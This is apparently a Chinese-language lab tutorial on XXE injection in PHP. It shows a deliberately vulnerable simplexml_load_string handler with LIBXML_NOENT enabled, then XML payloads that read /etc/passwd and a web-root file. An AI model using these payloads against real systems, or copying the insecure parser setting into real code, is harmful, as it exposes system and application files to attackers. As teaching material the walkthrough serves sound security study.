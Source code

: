 ```
<?xml version="1.0"?>

<!DOCTYPE ANY[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>

<x>&f;</x>
```

### 漏洞利用
- 利用条件: 在PHP中解析xml用的是libxml，在其≥2.9.0的版本中，是默认禁止解析xml外部实体内容的。(这里为了做实验，已经手动指定LIBXML_NOENT选项开启了xml外部实体解析)

**服务端核心代码**
```php
if(isset($_POST['submit']) and $_POST['xml'] != null){
    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

payload:(尝试提交如下xml数据)
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "kite">
]>
<name>&hacker;</name>
```
![](./src/2.png)

- linux下读取敏感文件
```xml
<?xml version = "1.0"?>

<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">

]>

<x>&f;</x>

<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///var/www/html/index.html">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```